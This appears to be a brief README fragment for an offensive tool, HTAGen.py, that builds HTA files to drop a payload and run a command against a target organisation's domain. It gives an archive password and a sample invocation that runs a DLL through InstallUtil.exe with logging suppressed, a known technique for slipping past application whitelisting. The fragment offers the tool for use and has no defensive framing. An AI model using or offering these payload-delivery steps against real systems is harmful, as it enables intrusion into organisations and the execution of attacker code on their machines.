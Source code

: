 Bring a payload to drop, a command to run, and the domain name of the target org.

key for 7z is aslijaslkjpop123op1pmajoi123ijo

Sample use:
python.exe HTAGen.py -b test.dll -d test.dll -c "C:\Windows\Microsoft.NET\Framework\v4.0.30319\InstallUtil.exe /logfile= /LogToConsole=false /U test.dll" -w https://google.com -D JANKH -t

